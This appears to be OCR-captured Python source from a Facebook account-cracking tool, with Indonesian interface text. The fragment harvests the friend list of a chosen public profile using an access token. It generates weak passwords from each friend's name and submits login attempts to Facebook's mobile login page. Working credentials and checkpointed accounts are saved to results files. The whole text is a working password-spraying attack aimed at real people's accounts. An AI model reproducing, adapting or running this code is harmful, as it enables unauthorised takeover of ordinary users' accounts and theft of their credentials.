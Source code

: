 def public():
	global token
	try:
		token = open('login.txt', 'r').read()
	except IOError:
		print(' \033[0;97m[\033[0;91m!\033[0;97m] Token Invalid')
		tokenz()
	print("\n \033[0;97m[\033[0;93m*\033[0;97m] Ketik 'me' jika ingin crack dari teman sendiri")
	idt = raw_input(" \033[0;97m[\033[0;92m+\033[0;97m] ID Publik : ")
	try:
		pok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token)
		sp = json.loads(pok.text)
		print(" \033[0;97m[\033[0;92m+\033[0;97m] Name : "+sp["name"])
	except KeyError:
		exit(' \033[0;97m[\033[0;91m!\033[0;97m] ID Publik Tidak Ada!')
	r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+token)
	z = json.loads(r.text)
	for i in z["data"]:
		uid = i['id']
		name = i['name']
		id.append(uid+'<=>'+name)
	print(" \033[0;97m[\033[0;93m*\033[0;97m] Total ID  : \033[0;91m"+str(len(id)))
	ask = raw_input("\n \033[0;97m[\033[0;93m?\033[0;97m] Anda ingin menggunakan Password Manual? Y/t : ")
	if ask == "Y" or ask == "y":
		manual()
	print(" \033[0;97m[\033[0;96m+\033[0;97m] Account \033[0;92mOK\033[0;97m Saved In : results/OK-%s-%s-%s.txt"% (ha, op, ta))
	print(" \033[0;97m[\033[0;96m+\033[0;97m] Account \033[0;93mCP\033[0;97m Saved In : results/CP-%s-%s-%s.txt\n"% (ha, op, ta))
	
	def main(user):
		global loop, token
		pwx = []
		sys.stdout.write(
		      '\r \033[0;97m[%s*\033[0;97m] Cracking %s/%s OK-:%s - CP-:%s ' % (rgb,loop, len(id), len(ok), len(cp))
		); sys.stdout.flush()
		uid,name=user.split("<=>")
		for ss in name.split(" "):
			if len(ss)<3:
				continue
			else:
				if len(ss) == 1 and len(ss) == 2 and len(ss) == 3 and len(ss) == 4 or len(ss) == 5:
					pwx.append(ss+"123")
					pwx.append(ss+"1234")
					pwx.append(ss+"12345")
				else:
					pwx.append(ss+"123")
					pwx.append(ss+"12345")
		try:
			for pw in pwx:
				pw = pw.lower()
				rex = requests.post('https://mbasic.facebook.com/login.php', data={'email': uid, 'pass': pw, 'login': 'submit'}, headers={'user-agent': ua})
				xo = rex.content
				if 'mbasic_logout_button' in xo or 'save-device' in xo:
					print('\r  \033[0;92m* --> ' +uid+ '|' + pw + '       ')
					ok.append(uid+'|'+pw)
					save = open('results/OK-%s-%s-%s.txt' % (ha, op, ta),'a') 
					save.write('  * --> '+str(uid)+'|'+str(pw)+'\n')
					save.close()
					break
					continue